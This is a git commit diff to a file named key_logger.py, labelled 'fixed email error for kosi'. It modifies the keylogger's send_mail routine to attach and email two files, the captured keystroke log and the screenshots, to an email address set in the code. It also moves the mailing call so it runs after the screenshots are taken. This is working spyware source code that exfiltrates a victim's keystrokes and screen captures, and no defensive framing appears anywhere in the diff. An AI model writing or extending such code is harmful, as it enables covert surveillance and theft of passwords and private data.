

fixed  email error for kosi

diff --git a/key_logger.py b/key_logger.py
@@ -109,7 +109,8 @@ def start_keylogger():
             receiver_email=None,
             subject="No subject",
             message="U didn't add any message",
-            attachment_path=None,
+            attachment_path_1=None,
+            attachment_path_2=None
     ):
         import smtplib, ssl
         # Create a MIME object
@@ -118,15 +119,27 @@ def start_keylogger():
         # Attach the message
         msg.attach(MIMEText(message, "plain"))
         
-        if attachment_path:
+        if attachment_path_1:
             # Attach the file
-            with open(attachment_path, "rb") as attachment:
+            with open(attachment_path_1, "rb") as attachment:
                 part = MIMEBase("application", "octet-stream")
                 part.set_payload(attachment.read())
                 encoders.encode_base64(part)
                 part.add_header(
                     "Content-Disposition",
-                    f"attachment; filename= {attachment_path.split('/')[-1]}",
+                    f"attachment; filename= {attachment_path_1.split('/')[-1]}",
+                )
+                msg.attach(part)
+        
+        if attachment_path_2:
+            # Attach the file
+            with open(attachment_path_2, "rb") as attachment:
+                part = MIMEBase("application", "octet-stream")
+                part.set_payload(attachment.read())
+                encoders.encode_base64(part)
+                part.add_header(
+                    "Content-Disposition",
+                    f"attachment; filename= {attachment_path_2.split('/')[-1]}",
                 )
                 msg.attach(part)
 
@@ -145,15 +158,7 @@ def start_keylogger():
             server.sendmail(sender_email, receiver_email, msg.as_string())
 
 
-    # Example usage with attachment
-    send_mail(
-        sender_email=email_address,
-        password=password,
-        receiver_email=email_address,
-        subject="Test Email with Attachment",
-        message="Hello, this is a test email with an attachment!",
-        attachment_path= file_merge + keys_information,  # Replace with the actual path to your attachment
-    )
+    
 
 
     # get screenshots
@@ -207,6 +212,16 @@ def start_keylogger():
 
 
     screenshot()
+    # Example usage with attachment
+    send_mail(
+        sender_email=email_address,
+        password=password,
+        receiver_email=email_address,
+        subject="Test Email with Attachment",
+        message="Hello, this is a test email with an attachment!",
+        attachment_path_1= file_merge + keys_information,  
+        attachment_path_2= file_merge + screenshot_information,
+    )
 
 # Create main window
 root = tk.Tk()
